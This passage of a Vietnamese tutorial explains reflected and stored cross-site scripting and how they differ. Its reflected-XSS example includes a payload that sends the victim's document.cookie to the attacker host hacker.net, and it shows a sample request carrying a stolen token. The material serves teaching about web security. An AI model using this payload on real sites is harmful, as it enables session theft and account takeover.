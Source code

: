 `https://banhang.com/name=let+i=new+Image;+i.src="http://hacker.net/"%2Bdocument.cookie`

Giả sử banhang.con là website nạn nhân truy cập, hacker.net là trang của hacker tạo ra

Nạn nhân truy cập đén URL trên

Server phẩn hồi lại cho nạn nhân, kèm theo dữ liệu có trong request  (đoạn javascript của hacker)

Trình duyệt của nạn nhân nhận phẩn hồi và thực thi đoạn javascript

```javascript

var i=new Image; 
i.src="http://hacker.net/”+document.cookie;"
```

đoạn javascript trên gọi đén request của hacker

```http
GET /accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiS0NTQyIsImlhdCI6MTUxNjIzOTAyMn0.HVLgiS3u6jOqluF49YMgKvzECd9B4xW0m8GMJuPFN2A HTTP/1.1
```

Từ trang web của mình hacker có thể bắt được nội dung của trang web trên mà cookie của người dùng đã bị đánh cắp. Từ đó hacker có thể thực hiện mọi quyền từ cookie của nạn nhân.

### 2. Stored XSS

Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. 

Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). 

Ví dụ như các form góp ý, các comment… trên các trang web. 

Với kỹ thuật Stored XSS, hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.

Đầu tiên kể tấn công sẽ dựa vào các form input từ HTML không được kiểm tra kĩ đầu vào:

![](https://i.imgur.com/ApPdQJq.png)

Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn script của hacker sẽ được thực thi trên trình duyệt người dùng.

Kịch bản khai thác:

![](https://images.viblo.asia/f0648231-6f0d-4bd7-988a-a471f2a05e37.png)


### 3. Sự khác biệt của Reflected XSS và Stored XSS

Để khai thác Reflected XSS, hacker phải lừa được nạn nhân truy cập vào url của mình. Còn Stored XSS không cần phải thực hiện việc này, sau khi chèn được script và CSDL, hacker chỉ việc ngồi chờ nạn nhân tự động truy cập vào. 

Với nạn nhân thì việc này hòa toàn là bình thường vì họ không hề hay biết dữ liệu của mình bị đánh cấp.
